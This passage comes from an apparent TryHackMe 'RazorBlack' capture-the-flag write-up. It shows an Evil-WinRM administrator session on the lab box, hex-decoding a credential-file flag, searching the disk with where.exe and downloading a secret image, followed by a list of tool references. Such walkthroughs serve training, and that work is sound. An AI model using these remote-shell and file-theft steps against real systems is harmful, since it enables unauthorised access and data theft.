    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Administrator</S>
      <SS N="Password">44616d6e20796f752061726520612067656e6975732e0a4275742c20492061706f6c6f67697a6520666f72206368656174696e6720796f75206c696b6520746869732e0a0a4865726520697320796f757220526f6f7420466c61670a54484d7b31623466343663633466626134363334383237336431386463393164613230647d0a0a546167206d65206f6e2068747470733a2f2f747769747465722e636f6d2f5879616e3164332061626f75742077686174207061727420796f7520656e6a6f796564206f6e207468697320626f7820616e642077686174207061727420796f75207374727567676c656420776974682e0a0a496620796f7520656e6a6f796564207468697320626f7820796f75206d617920616c736f2074616b652061206c6f6f6b20617420746865206c696e75786167656e637920726f6f6d20696e207472796861636b6d652e0a576869636820636f6e7461696e7320736f6d65206c696e75782066756e64616d656e74616c7320616e642070726976696c65676520657363616c6174696f6e2068747470733a2f2f7472796861636b6d652e636f6d2f726f6f6d2f6c696e75786167656e63792e0a</SS>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\Administrator> 
```

But we can get the flag with a manual hex-decoding with `xxd`.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ echo '44616d6e20796f752061726520612067656e6975732e0a4275742c20492061706f6c6f67697a6520666f72206368656174696e6720796f75206c696b6520746869732e0a0a4865726520697320796f757220526f6f7420466c61670a54484d7b31623466343663633466626134363334383237336431386463393164613230647d0a0a546167206d65206f6e2068747470733a2f2f747769747465722e636f6d2f5879616e3164332061626f75742077686174207061727420796f7520656e6a6f796564206f6e207468697320626f7820616e642077686174207061727420796f75207374727567676c656420776974682e0a0a496620796f7520656e6a6f796564207468697320626f7820796f75206d617920616c736f2074616b652061206c6f6f6b20617420746865206c696e75786167656e637920726f6f6d20696e207472796861636b6d652e0a576869636820636f6e7461696e7320736f6d65206c696e75782066756e64616d656e74616c7320616e642070726976696c65676520657363616c6174696f6e2068747470733a2f2f7472796861636b6d652e636f6d2f726f6f6d2f6c696e75786167656e63792e0a' | xxd -r -p
Damn you are a genius.
But, I apologize for cheating you like this.

Here is your Root Flag
THM{<REDACTED>}

Tag me on https://twitter.com/Xyan1d3 about what part you enjoyed on this box and what part you struggled with.

If you enjoyed this box you may also take a look at the linuxagency room in tryhackme.
Which contains some linux fundamentals and privilege escalation https://tryhackme.com/room/linuxagency.
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

#### What is Tyson's Flag?

There is no user folder that corresponds to a Tyson user.

```powershell
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2021   1:25 PM                Administrator
d-----        2/25/2021  10:16 AM                lvetrova
d-r---        2/23/2021   6:21 AM                Public
d-----        2/25/2021  10:20 AM                twilliams
d-----        2/25/2021   9:34 AM                xyan1d3


*Evil-WinRM* PS C:\Users> 
```

But we can always search for all files that contain `*tyson*`.

```powershell
*Evil-WinRM* PS C:\Users> where.exe /R C:\ *tyson*
where.exe : INFO: Could not find files for the given pattern(s).
    + CategoryInfo          : NotSpecified: (INFO: Could not...ven pattern(s).:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
*Evil-WinRM* PS C:\Users> 
```

Nope, no such luck!

We have already got hashes from all users apart from `twilliams` and `Public` so let's take a closer look at these folders.

```powershell
*Evil-WinRM* PS C:\Users\twilliams> dir


    Directory: C:\Users\twilliams


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:18 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021  10:20 AM             80 definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe


*Evil-WinRM* PS C:\Users\twilliams> Get-Content *.exe
THM{<REDACTED>}
*Evil-WinRM* PS C:\Users\twilliams> 
```

And there we have it!

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

#### What is the complete top secret?

Let's do another search with `where`.

```bash
*Evil-WinRM* PS C:\Users\twilliams> where.exe /R C:\ top*
C:\Program Files\Top Secret\top_secret.png
C:\Windows\Microsoft.NET\Framework\v4.0.30319\ASP.NETWebAdminFiles\Images\topGradRepeat.jpg
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ASP.NETWebAdminFiles\Images\topGradRepeat.jpg
C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~17763.1935.1.4\amd64_tsportalwebpart_31bf3856ad364e35_10.0.17763.1697_none_820ae910c17bf649\f\top_left.png
C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~17763.1935.1.4\amd64_tsportalwebpart_31bf3856ad364e35_10.0.17763.1697_none_820ae910c17bf649\f\top_mid.png
C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~17763.1935.1.4\amd64_tsportalwebpart_31bf3856ad364e35_10.0.17763.1697_none_820ae910c17bf649\f\top_right.png
<---snip--->
```

The first file looks very promising so we download it.

```powershell
*Evil-WinRM* PS C:\Users\twilliams> download "C:\Program Files\Top Secret\top_secret.png" top_secret.png
                                        
Info: Downloading C:\Program Files\Top Secret\top_secret.png to top_secret.png
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\twilliams> 
```

And view it at our Kali machine with `eog` or `feh`.


The way to (save the file and) quit `vi` is: `:wq`.

Answer: `:wq`

---------------------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [Active Directory - Wikipedia](https://en.wikipedia.org/wiki/Active_Directory)
- [cat - Linux manual page](https://man7.org/linux/man-pages/man1/cat.1.html)
- [chown - Linux manual page](https://man7.org/linux/man-pages/man1/chown.1.html)
- [cut - Linux manual page](https://man7.org/linux/man-pages/man1/cut.1.html)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [Evil-WinRM - GitHub](https://github.com/Hackplayers/evil-winrm)
- [Evil-WinRM - Kali Tools](https://www.kali.org/tools/evil-winrm/)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [Get-Content - Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-content?view=powershell-5.1)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [Impacket - GitHub](https://github.com/fortra/impacket)
- [Impacket - Homepage](https://www.coresecurity.com/core-labs/impacket)
- [Impacket - Kali Tools](https://www.kali.org/tools/impacket/)
- [Impacket-scripts - Kali Tools](https://www.kali.org/tools/impacket-scripts/)
- [Import-Clixml - Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/import-clixml?view=powershell-5.1)
- [john - Kali Tools](https://www.kali.org/tools/john/)
- [John the Ripper - Homepage](https://www.openwall.com/john/)
- [Kerberos (protocol) - Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [Lightweight Directory Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [mount - Linux manual page](https://man7.org/linux/man-pages/man8/mount.8.html)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [Network File System - Wikipedia](https://en.wikipedia.org/wiki/Network_File_System)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [ping - Linux manual page](https://man7.org/linux/man-pages/man8/ping.8.html)
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [showmount - Linux manual page](https://man7.org/linux/man-pages/man8/showmount.8.html)
- [smbget - Kali Tools](https://www.kali.org/tools/samba/#smbget)
- [smbget - Linux manual page](https://linux.die.net/man/1/smbget)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [unzip - Linux manual page](https://linux.die.net/man/1/unzip)
- [vi - Linux manual page](https://man7.org/linux/man-pages/man1/vi.1p.html)
- [What Is the Global Catalog? - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10))
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [Windows Remote Management - Wikipedia](https://en.wikipedia.org/wiki/Windows_Remote_Management)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
